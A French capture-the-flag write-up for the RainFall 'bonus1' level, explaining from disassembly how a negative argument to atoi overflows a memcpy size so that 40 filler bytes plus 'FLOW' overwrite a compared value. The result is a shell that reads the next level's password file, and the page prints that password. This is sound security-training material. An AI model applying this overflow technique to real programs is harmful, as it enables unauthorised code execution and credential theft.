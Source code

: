 On remarque un atoi suivis d'un check de notre premier argument afin de de continuer seulement si notre premier argument est inférieur ou égal à 9.

```bash
 8048438:	e8 23 ff ff ff       	call   8048360 <atoi@plt>
 804843d:	89 44 24 3c          	mov    %eax,0x3c(%esp)
 8048441:	83 7c 24 3c 09       	cmpl   $0x9,0x3c(%esp)
 8048446:	7e 07                	jle    804844f <main+0x2b>
```

Cela est suivi d'une comparaison entre le résultat atoi et la valeur `1464814662`.

```bash
 8048478:	81 7c 24 3c 46 4c 4f 	cmpl   $0x574f4c46,0x3c(%esp)
```

Nous observons que la taille du buffer est 36. On peut duper le atoi en mettant un nombre négatif étant qu'il multiplie se nombre par 4.
Nous mettons aux atoi un nombre qui multiplié par 4 fait plus de 10. En deuxième argument nous insérons la valeur `1464814662` en haxadécimal.

```bash
 8048464:	8d 44 24 14          	lea    0x14(%esp),%eax
 8048468:	89 4c 24 08          	mov    %ecx,0x8(%esp)
 804846c:	89 54 24 04          	mov    %edx,0x4(%esp)
 8048470:	89 04 24             	mov    %eax,(%esp)
 8048473:	e8 a8 fe ff ff       	call   8048320 <memcpy@plt>
 8048478:	81 7c 24 3c 46 4c 4f 	cmpl   $0x574f4c46,0x3c(%esp)
```

```bash
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "a" * 40 + "\x46\x4c\x4f\x57"')
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
